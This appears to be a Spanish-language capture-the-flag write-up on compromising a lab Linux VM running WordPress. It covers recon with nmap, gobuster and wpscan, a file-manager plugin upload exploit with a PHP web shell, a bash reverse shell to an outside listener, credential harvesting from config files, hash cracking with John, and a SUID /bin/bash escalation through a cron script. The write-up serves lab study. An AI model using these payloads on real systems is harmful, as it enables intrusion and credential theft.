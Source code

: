 ## Summary

Tags: #Pivoting #Linux #SSH #HTTP #WordPress #PHP #ReverShell #MySQL #Apache #John #BashShell #CRON #SUID

- IP ->  192.168.111.38
- Ports -> TCP (22,80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.9p1 Debian 10+deb10u2
    - 80 -> Apache httpd 2.4.38

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

* Launchpad OpenSSH 7.9p1 Debian 10+deb10u2   ->   Buster
* Launchpad Apache httpd 2.4.38   ->   Buster

## Recon

```bash
❯ arp-scan -I ens33 --localnet --ignoredups              # Para hacer un escaneo de la red 

	# I = i mayuscula; es la interface ens33
	# ignoredups = Ignora IPs duplicadas 
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,80 ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Nos disponemos  a ver la web, después como no hay nada, le haremos fuzzing.

```bash
❯ gobuster dir -u http://192.168.111.38/ -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt -b 404

	# dir = Enumerar directorios y archivos 
	# x = Buscar por extenciones html,php,txt

# Encontramos un dir llamado '/blog/'
```

En la pagina web, en el dir '**/blog/**' nos muestra una web muy 'mal'. Miramos su código fuente y encontramos que esta tratando de hacer un 'virtual hosting' a la siguiente dirección '(**aragog.howarts y wordpress.aragog.howarts**)'. Por lo que, agregamos ese dominio a nuestro '**/etc/passwd**'

* Esta web es un WordPress 5.0.12

Usaremos la herramienta del WP
```bash
❯ wpscan --url http://192.168.111.38/blog/ -e u,vp --plugins-detection aggressive                      # Enumeracion 

	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables
	# plugins-detection = Enumeracion de plugins (mixed, passive, aggressive)
```

Cuando no nos reporta nada de los plugins, debemos de usar el **API  Token**
El **API Token** lo podemos descargar registrándonos desde la siguiente url:
* [API-Token](https://wpscan.com/register)

```bash
❯ wpscan --url <http://URL/> -e u,vp --plugins-detection aggressive --api-token="DFFGB15GDDG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades con el API Token
```

Ahora si nos enumera algunas vulnerabilidades y en ellas encontramos que a través de una subida de un archivo lo podemos llevar a un RCE (Remote Code Ejecution). Nos dan un link en donde nos explican un poco y ahí nos dan otro link en donde podemos descargar el exploit en Python. 

Para podernos descargar el exploit .py hacemos lo siguiente. 
```bash
❯ wget http://❮IP❯/                   # Para poder descargar un el exploit a nuestra maquina de atacante 
```

Al momento de revisar el exploit nos damos cuenta que trata de abrir un archivo .php que es el que subirá, pero ese aun no existe. Por lo que, nos disponemos a crearlo en el mismo entorno de trabajo que el exploit. 
```php 
❯ nvim payload.php

	<?php 
		echo "<prep>" . shell_exec($_GET['cmd']) . "</prep>";
	?>
```

Ejecutamos el exploit 
```bash 
❯ python3 2020-wp-file.py http://192.168.111.38/blog/        # Ejecutamos el exploit y le colocamos la url que tiene el WP vulnerable para que suba el archivo payload.php
```

Ahora, la url que nos devuelve el script es la que debemos de colocar en el navegador y en ella podremos ejecutar comandos:
```bash 
❯ http://192.168.111.38/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php                      # Url original en donde se subio el payload
 
❯ http://192.168.111.38/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=whoami           # Url con el comando a ejecutar whoami = www-data  
❯ http://192.168.111.38/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=ip a             # Url con el comando a ejecutar ip a y ahi miramos dos redes

# Url con el comando a ejecutar y asi obtener una ReverShell
❯ http://192.168.111.38/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"   

# Recordemos que en la URL de la web debemos de cambiar los & -> %26
❯ http://192.168.111.38/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.13/443 0>%261"
```

Ahora antes de hacer la ReverShell nos debemos de colocar en escucha por el puerto 443 de nuestra maquina de atacante
```bash
❯ nc -nlvp 443 
```

## User

Ganamos acceso como el usuario '**www-data**'

Hacemos un tratamiento de la TTY
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

En el **/home/hagrid98** podemos encontrar la primer flag, pero com esta en base64 hacemos lo siguiente 
```bash
❯ echo "9g8yg5w908yn5w689==" | base64 -d: echo           # Decodificar el base64 y nos revela el contenido de la flag 
```

Como lo que hemos estado explotando es un WordPress, este contiene un archivo especifico llamado **wp-config.php** que contiene credenciales de acceso a la base de datos y mayormente se encuentra en la siguiente ruta: **/var/www/html** 

Como no lo encontramos, recordamos que también estamos usando **Apache** 
**/etc/apache2/sites-enabled/** Ruta de Apache y ahí encontramos el **wordpress.conf** que nos dice la ruta de en donde esta montado todo el WordPress en la maquina victima 

Si miramos el contenido podemos  ver la ruta **/usr/share/wordpress/**, encontramos el **wp-config.php** que dispone de las credenciales para la base de datos. 

Al momento de visualizar el archivo, observamos que no contiene credenciales pero tiene una nueva ruta de un archivo. 
```bash 
❯ cat /etc/wordpress/config-default.php              # Archivo que contiene las credenciales user:root|passwd:mySecr3tPass, crdenciales que son para la base de datos y no para algun usuario de la maquina 
```

Nos conectamos a la DB MySQL para buscar credenciales de los usuarios existentes en la maquina. 
```bash
❯  mysql -u root -p                                  # Nos conectamos a MySQL y le proporcionamos la password encontrada

	> show databases;                                # Muestra todas las bases de datos existentes
	> use ❮DB_name❯;                                 # Usamos una base de datos especifica
	> show tables;                                   # Mostramos el contenido de las tablas de la base de datos elegida
	> describe ❮Table_name❯;                         # Miramos que columnas existen
	> select * from ❮Table_name❯;                    # Seleccionamos todo de la tabla users

# Encontramos al usuario hagrid98 y su passwd que tiene un hash que lo podemos crackear para ver la pass en texto claro 
```

Colocamos el hash encontrado en un archivo llamado 'hash', para después tratar de romperlo con fuerza bruta con la herramienta John The Ripper
```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>                              # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# hashfile = Archivo que contiene el hash a crackear

# Nos regresa que la passwd del usuario hagrid98:password123
```

```bash
❯  ssh hagrid98@192.168.111.38                                 # Para conectarnos por ssh en el puerto default 22
```

```bash
❯ lsb_release -a                             # Miramos algunas caracteristicas de la maquina Linux 

# Miramos que la version de Debian es Buster
```

## Root

Ahora somo el usuario '**hagrid98**'

Por lo que buscaremos la forma escalar privilegios y ser root. 

```bash 
❯ id                     # Para ver a que grupos estamos asignados 
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
```

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio
```

```bash 
❯ find / -user <username> 2>/dev/null             # Para ver que comandos donde el propiertario es es usuario

# Encontramos un script en la siguiente ruta  ./opt/.backup.sh
# Que al hacerle 'cat' al 'backup.sh' nos muestra que esta haciendo una copia de forma recursiva de lo que hay en la carpeta al /tmp/tmp_wp_uploads
# Si miramos lo que hay en /tmp/tmp_wp_uploads, observamos que el propietario es root 
```

Procedemos a modificar el script de bash './opt/.backup.sh' ya que como 'hagrid98' somos el propietario. 
```bash 
❯ nano ./opt/.backup.sh          # Le cambiaremos el privilegio a la bash para convertirla en SUID y asi lanzar una shell privilegiada y operar como root

chmod u+s /bin/bash              # Haremos que root le asigne una SUID a la bash  
```

```bash 
❯ watch -n 1 ls -l /bin/bash    # Monitorizar la bash cada segundo con el siguiente comando
❯ bash -p                       # Lanzamos una bash con privilegios temporales 
```

Podemos buscar la flag de root en su /home/root/.



